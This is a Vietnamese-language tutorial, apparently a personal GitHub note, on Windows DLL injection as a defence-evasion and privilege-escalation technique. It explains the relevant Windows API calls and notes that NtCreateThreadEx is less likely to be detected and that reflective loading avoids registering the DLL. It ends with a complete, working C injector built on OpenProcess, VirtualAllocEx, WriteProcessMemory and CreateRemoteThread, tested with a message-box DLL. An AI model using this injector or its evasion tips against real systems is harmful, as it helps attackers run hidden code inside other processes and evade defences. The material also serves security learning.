






## Process Injection: Dynamic-link Library Injection

Kẻ tấn công có thể truyền thư viện liên kết động (DLL) vào cách tiến trình để tránh các biện pháp phòng thủ dựa trên tiến trình cũng như có thể nâng cao đặc quyền. Chèn DLL là phương pháp thực thi mã tùy ý trong không gian địa chỉ của một tiến trình riêng biệt.

- Tuy nhiên không chỉ chèn được code ở dạng DLL, chúng ta có thể chèn code ở nhiều dạng khác như exe..., điều quan trọng là chúng ta có đủ quyền để thao tác với tiến trình của ứng dụng khác hay không.

- Windows API cung cấp cho chúng ta một số hàm để thao tác cũng như can thiệp trong việc debug, chúng ta sẽ tận dụng những hàm này để thực hiện việc chèn DLL.

Việc DLL Injection thành 4 bước sau:

- Can thiệp vào process 
- Cấp phát một vùng nhớ trong process
- Copy toàn bộ DLL hoặc đường dẫn đến DLL vào vùng nhớ đó và xác định vị trí của vùng nhớ.
- Process thực thi DLL 

Các hàm Windows API hay được sử dụng như sau:

```
HANDLE OpenProcess(
  [in] DWORD dwDesiredAccess,
  [in] BOOL  bInheritHandle,
  [in] DWORD dwProcessId
);
// Chức năng để mở/ lấy handle tới tiến trình khác với quyền truy cập cụ thể.
```


```
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
// Cấp phát vùng nhớ trong không gian địa chỉ của địa chỉ tiến trình khác (remote process) 
```
```
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
// Ghi một buffer từ không gian địa chỉ hiện tại vào bên trong 1 địa chỉ tiến trình khác.
```

```
HMODULE LoadLibraryA(
  [in] LPCSTR lpLibFileName
);
// Nạp một DLL (theo đường dẫn) vào tiến trình hiện tại.
``` 

```
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
// Tạo một luồng mới chạy trong tiến trình khác.
```

```
NtCreateThreadEx
// Tạo thread trong 1 process khác bằng cách gọi trực tiếp hàm native trong ```ntdll.dll```, đỡ bị detect hơn những api phổ biến thằng là wrapper.
```

```
CreateFileA
// Mở hoặc tạo file. 

GetFileSize
// Lấy kích thước file

GetModuleHandle
// Trả về handle(base address) của module đã nạp trong process hiện tại.

GetProcAddress
// Lấy địa chỉ của hàm export trong module
```

### Tóm tắt các bước thực hiện

- ```OpenProcess() được sử dụng để gắn tiến trình độc hại với tiến trình xác thực```

- ```VirtualAllocEx``` và ```WriteProcessMemory``` có thể được dùng để cấp phát bộ nhớ trong tiến trình mục tiêu và ghi dữ liệu vào đó, chuẩn bị cho điểm bắt đầu thực thi. Ở đây không đơn giản là chúng ta cung cấp tên DLL cho các hàm này, mà cần đưa vào một địa chỉ bộ nhớ làm điểm khởi đầu thực thi.

- Có 2 điểm khởi đầu phổ biến ```LoadLibraryA``` và nhảy thẳng đến DllMain

- ```CreateRemoteThread(), NtCreateThreadEx``` có thể được yêu cầu tiến trình mục tiêu khởi chạy DLL.

- ```LoadLibraryA()``` là hàm trong ```kernel32.dll``` được dùng để nạp DLL, file thực thi, hoặc các thư viện hỗ trợ khác trong thời gian chạy. Nó chỉ nhận một tham số duy nhất là tên file. Điều này có nghĩa chúng ta chỉ cần cung cấp phát một vùng nhớ chứa đường dẫn đến DLL của mình và đặt điểm khởi đầu thực thi tại địa chỉ của ```LoadLibraryA()```, truyền địa chỉ vùng nhớ chứa đường dẫn đó làm tham số.

- Nhược điểm lớn của ```LoadLibraryA()``` là nó sẽ đăng kí DLL được nạp với chương trình, do đó dễ bị phát hiện. Thêm 1 bất tiện nhỏ là nếu một DLL đã từng được nạp trước đó bằng ```LoadLibraryA()```, nó sẽ không thực thi lại nữa. Có thể khắc phục nhưng cần thêm code.

- Một phương pháp thay thế cho ```LoadLibraryA()``` là nạp toàn bộ DLL vào bộ nhớ, sau đó xác định offset với entry point của DLL. Với cách này, bạn có thể tránh việc đăng kí DLL với chương trình và có thể inject nhiều lần vào 1 tiến trình.

### Bước 1: Gắn tiến trình (Attaching to the Process)



Trước tiến chúng ta cần có 1 handle đến tiến trình(process) để có thể tương tác được với nó. Việc này được thực hiện bằng hàm ```OpenProcess().```

Cần yêu cầu quyền truy cập thực thi các tác vụ dưới đây. Những quyền có thể khác nhau với các phiên bản windows tuy nhiên hầu hết là.

```
Handle = OpenProcess( PROCESS_CREATE_THREAD | 
  PROCESS_QUERY_INFORMATION | 
  PROCESS_VM_OPERATION | 
  PROCESS_VM_WRITE | 
  PROCESS_VM_READ, 
  FALSE, 
  procID );
```

### Bước 2: Cấp phát vùng nhớ (Allocating Memory)



Trước khi chèn bất cứ thứ gì vào process chúng ta đều cần có 1 chỗ để đặt chúng vào. Chúng ta sẽ sử dụng hàm ```VirtualAllocEx()``` để thực hiện công việc đó. 

```VirtualAllocEx()``` lấy dung lượng của vùng nhớ cần cấp phát để làm tham số truyền vào. Nếu sử dụng hàm ```LoadLibraryA()```, chúng ta cần cấp phát vùng nhớ để ghi đường dẫn đến DLL, còn nếu sử dụng phương thức nhảy đến DllMain thì cần cấp phát đủ lớn để ghi toàn bộ Dll vào. Sử dụng đường dẫn tới DLL sẽ phải sử dụng hàm LoadLibraryA() cùng với những hạn chế tôi đã nói ở trên. Nhưng đó là một phương pháp rất phổ biến. Cấp phát đủ vùng nhớ để ghi đường dẫn đến DLL vào:

```
GetFullPathName(TEXT("mydll.dll"),
  BUFSIZE,
  dllPath, //Đường dẫn đến DLL sẽ được lưu vào đây
  NULL);

dllPathAddr = VirtualAllocEx(hHandle,
  0,
  strlen(dllPath),
  MEM_RESERVE|MEM_COMMIT,
  PAGE_EXECUTE_READWRITE);
```

Sử dụng toàn bộ code trong DLL chúng ta không cần sử dụng hàm ```LoadLibraryA()``` sẽ tránh được các hạn chế trên. Đầu tiên chúng ta sẽ lấy handle của DLL bằng hàm ```CreateFileA()``` và tính toán kích thước của DLL bằng hàm ```GetFileSize()```, cuối cùng đưa vào hàm ```VirtualAllocEx()```:

```
GetFullPathName(TEXT("mydll.dll"),
  BUFSIZE,
  dllPath, //Đường dẫn đến DLL sẽ được lưu vào đây
  NULL);

hFile = CreateFileA( dllPath,
  GENERIC_READ,
  0,
  NULL,
  OPEN_EXISTING,
  FILE_ATTRIBUTE_NORMAL,
  NULL );

dllFileLength = GetFileSize( hFile, NULL );

remoteDllAddr = VirtualAllocEx( hProcess,
  NULL,
  dllFileLength,
  MEM_RESERVE|MEM_COMMIT,
  PAGE_EXECUTE_READWRITE );
```

### Bước 3: Copy và xác định địa chỉ (Copying the DLL/Determine Addresses)

Chúng ta có thể copy đường dẫn hoặc toàn bộ DLL đến vùng nhớ của process. 



Giờ chúng ta có thể copy đường dẫn hoặc toàn bộ DLL đến vùng nhớ của process. Khi đã có vùng nhớ cần thiết, chúng ta sẽ sử dụng hàm ```WriteProcessMemory()``` để thực hiện công việc ghi: Đường dẫn DLL:

```
WriteProcessMemory( hHandle,
  dllPathAddr,
  dllPath,
  strlen(dllPath),
  NULL);
```

Toàn bộ DLL: Cần đọc dll trước khi ghi nó vào vùng nhớ của process.

```
lpBuffer = HeapAlloc( GetProcessHeap(),
  0,
  dllFileLength);

ReadFile( hFile,
  lpBuffer,
  dllFileLength,
  &dwBytesRead,
  NULL );

WriteProcessMemory( hProcess,
  lpRemoteLibraryBuffer,
  lpBuffer,
  dllFileLength,
  NULL );
```

Xác định điểm bắt đầu thực thi: đường dẫn DLL và ```LoadLibraryA()```: Chúng ta sẽ xác định địa chỉ của hàm ```LoadLibraryA()``` và chuyển nó đến thực thi cùng với tham số truyền vào là địa chỉ vùng nhớ chứa đường dẫn đến DLL. Để lấy địa chỉ của hàm ```LoadLibraryA()``` ta sẽ sử dụng ```GetModuleHandle()``` và ```GetProcAddress()```

```loadLibAddr = GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "LoadLibraryA");```

Toàn bộ DLL và DllMain bằng cách này chúng ta sẽ tránh được đăng kí DLL chương trình. Tuy nhiên phần khó thực hiện nhất là lấy entry point của DLL khi nó được ghi vào trong vùng nhớ. Sử dụng hàm sau:

```dwReflectiveLoaderOffset = GetReflectiveLoaderOffset(lpBuffer);```

#### Bước 4: Thực thi DLL (Executing the DLL!)

Đến thời điểm này, chúng ta đã có DLL nằm trong bộ nhớ và đã biết địa chỉ bộ nhớ nơi muốn bắt đầu thực thi. Việc còn lại chỉ là yêu cầu tiến trình thực thi nó. Có một vài cách để làm điều này.

```CreateRemoteThread()```

Hàm ```CreateRemoteThread()``` có lẽ là phương pháp được biết đến và sử dụng rộng rãi nhất.

```

rThread = CreateRemoteThread(hTargetProcHandle, NULL, 0, lpStartExecAddr, lpExecParam, 0, NULL); 

WaitForSingleObject(rThread, INFINITE);
```


```WaitForSingleObject()``` để chắc chắn rằng DLL đã được thực thi trước khi Windows thực thi các công việc tiếp theo của process


### Bước 5: Thực hành thử DLL Injection

Tạo 1 DLL đơn giản có chức năng messagebox 


```C
#include "pch.h"
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBoxW(NULL, L"LuongVD!", L"Info", MB_OK | MB_ICONINFORMATION);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Tiến hành code injection

```C
#include<stdio.h>
#include<windows.h>

const char* k = "[+]";
const char* e = "[-]";
const char* i = "[*]";

DWORD PID, TID = NULL;
LPVOID rBuffer = NULL;	
HMODULE hKernel32 = NULL;
HANDLE hProcess = NULL, hThread = NULL;

wchar_t dllPath[MAX_PATH] = L"D:\\LuongVD.dll";
size_t dllPathSize = sizeof(dllPath);


int main(int argc, char* argv[]) {
    if (argc < 2) {
        printf("%s Usage: %s", e, argv[0]);
        return EXIT_FAILURE;
    }

    PID = atoi(argv[1]);
    printf("%s Trying to get a handle to the process (%ld)\n", i, PID);

    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);

    if (hProcess == NULL) {
        printf("%s Failed to get a handle to the process, error: %ld\n", e, GetLastError());
        return EXIT_FAILURE;
    }
    printf("%s Got a handle to the process (%p)\n", k, hProcess);
    rBuffer = VirtualAllocEx(hProcess, NULL, dllPathSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (rBuffer == NULL) {
        printf("%s couldn't create rBuffer, error: %ld\n", e, GetLastError());
        return EXIT_FAILURE;
    }
    printf("%s allocated buffer to process memory w/ PAGE_READWRITE permission\n", k);

    WriteProcessMemory(hProcess, rBuffer, (LPVOID)dllPath, dllPathSize, NULL);
    printf("%s wrote [%S] to process memory\n", k, dllPath);

    hKernel32 = GetModuleHandleW(L"Kernel32");
    if (hKernel32 == NULL) {
        printf("%s couldn't get handle to Kernel32, error: %ld\n", e, GetLastError());
        CloseHandle(hProcess);
        return EXIT_FAILURE;
    }
    printf("%s got handle to Kernel32 (%p)\n", k, hKernel32);

    LPTHREAD_START_ROUTINE startThis = (LPTHREAD_START_ROUTINE)GetProcAddress(hKernel32, "LoadLibraryW");
    if (startThis == NULL) {
        printf("%s couldn't get address of LoadLibraryW, error: %ld\n", e, GetLastError());
        VirtualFreeEx(hProcess, rBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return EXIT_FAILURE;
    }
    printf("%s got address of LoadLibraryW (%p)\n", k, startThis);
    hThread = CreateRemoteThread(hProcess, NULL, 0, startThis, rBuffer, 0, &TID);
    if (hThread == NULL) {
        printf("%s couldn't create remote thread, error: %ld\n", e, GetLastError());
        VirtualFreeEx(hProcess, rBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return EXIT_FAILURE;
    }
    printf("%s got a handle to the newly-created thread (%ld)\n\\--0x%p\n", k, TID, hThread);
    printf("%s waiting for the thread to finish execution\n", i);
    WaitForSingleObject(hThread, INFINITE);
    printf("%s thread finished execution\n", k);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    printf("< 3 LuongVD\n");
    return EXIT_SUCCESS;
}
```

Kết quả thu được 



Kiểm tra với Process Hacker 



Các hàm đã được import

